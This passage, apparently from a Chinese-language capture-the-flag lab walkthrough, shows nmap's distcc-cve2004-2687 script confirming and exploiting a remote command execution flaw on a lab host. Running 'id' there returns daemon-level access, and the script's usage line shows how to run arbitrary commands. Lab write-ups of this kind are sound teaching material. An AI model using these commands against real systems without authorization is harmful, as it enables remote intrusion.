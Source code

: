 ```shell
 /usr/share/nmap/scripts/distcc-cve2004-2687.nse
 
 $ sudo nmap -T4 --script distcc* -p3632 10.10.10.3                
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-17 13:57 HKT
 Nmap scan report for 10.10.10.3
 Host is up (0.24s latency).
 
 PORT     STATE SERVICE
 3632/tcp open distccd
 | distcc-cve2004-2687: 
 |   VULNERABLE:
 |   distcc Daemon Command Execution
 |     State: VULNERABLE (Exploitable)
 |     IDs: CVE:CVE-2004-2687
 |     Risk factor: High CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
 |       Allows executing of arbitrary commands on systems running distccd 3.1 and
 |       earlier. The vulnerability is the consequence of weak service configuration.
 |       
 |     Disclosure date: 2002-02-01
 |     Extra information:
 |       
 |     uid=1(daemon) gid=1(daemon) groups=1(daemon)
 |   
 |     References:
 |       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
 |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
 |_     https://distcc.github.io/security.html
 
 Nmap done: 1 IP address (1 host up) scanned in 2.88 seconds
```

网上查distccd的资料：

&gt; *distccd* is the server for the ***distcc**(1)* distributed compiler. It accepts and runs compilation jobs for network clients.

`more /usr/share/nmap/scripts/distcc-cve2004-2687.nse`查看NSE脚本的具体内容：

```shell
 $ more /usr/share/nmap/scripts/distcc-cve2004-2687.nse
 .....
 description = [[
 Detects and exploits a remote code execution vulnerability in the distributed
 compiler daemon distcc. The vulnerability was disclosed in 2002, but is still
 present in modern implementation due to poor configuration of the service.
 ]]
 
 ---
 -- @usage
 -- nmap -p 3632 &lt;ip&gt; --script distcc-exec --script-args=&#34;distcc-exec.cmd=&#39;id&#39;&#34;
 ...
```
